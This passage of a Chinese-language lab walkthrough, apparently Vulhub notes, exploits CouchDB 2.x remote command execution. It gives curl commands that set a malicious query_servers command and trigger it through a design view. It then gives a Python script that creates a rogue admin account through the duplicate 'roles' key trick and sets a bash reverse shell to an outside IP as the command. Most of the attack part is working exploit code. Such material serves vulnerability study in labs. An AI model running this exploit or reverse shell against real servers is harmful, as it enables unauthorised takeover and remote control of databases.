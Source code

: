 \(2\) 2.1.0 下的说明

2.1.0中修改了我上面用到的两个API，这里需要详细说明一下。  
Couchdb 2.x 引入了集群，所以修改配置的API需要增加node name。这个其实也简单，我们带上账号密码访问/\_membership即可：

`curl`[`http://vulhub:vulhub@your-ip:5984/_membership`](http://your-ip:5984/_membership)

可见，我们这里只有一个node，名字是nonode@nohost。

然后，我们修改nonode@nohost的配置：

`curl -X PUT`[`http://vulhub:vulhub@your-ip:5984/_node/nonode@nohost/_config/query_servers/cmd`](http://your-ip:5984/_node/nonode@nohost/_config/query_servers/cmd)`-d '"id >/tmp/success"'`

然后，与1.6.0的利用方式相同，我们先增加一个Database和一个Document：

```
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'

```

Couchdb 2.x删除了\_temp\_view，所以我们为了触发query\_servers中定义的命令，需要添加一个\_view：

```
curl -X PUT http://vulhub:vulhub@your-ip:5984/vultest/_design/vul -d '{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}' -H "Content-Type: application/json"

```

增加\_view的同时即触发了query\_servers中的命令。

2.1 p牛的python脚本 支持高低版本,需要在version = 定义

```
#!/usr/bin/env python3
import requests
from requests.auth import HTTPBasicAuth

target = 'http://127.0.0.1:5984'
command = '"bash -i >& /dev/tcp/192.168.2.64/2222 0>&1"'
version = 2

session = requests.session()
session.headers = {
    'Content-Type': 'application/json'
}
# session.proxies = {
#     'http': 'http://127.0.0.1:8085'
# }
session.put(target + '/_users/org.couchdb.user:wooyun', data='''{
  "type": "user",
  "name": "wooyun",
  "roles": ["_admin"],
  "roles": [],
  "password": "wooyun"
}''')

session.auth = HTTPBasicAuth('wooyun', 'wooyun')

if version == 1:
    session.put(target + ('/_config/query_servers/cmd'), data=command)
else:
    host = session.get(target + '/_membership').json()['all_nodes'][0]
    session.put(target + '/_node/{}/_config/query_servers/cmd'.format(host), data=command)

session.put(target + '/wooyun')
session.put(target + '/wooyun/test', data='{"_id": "wooyuntest"}')

```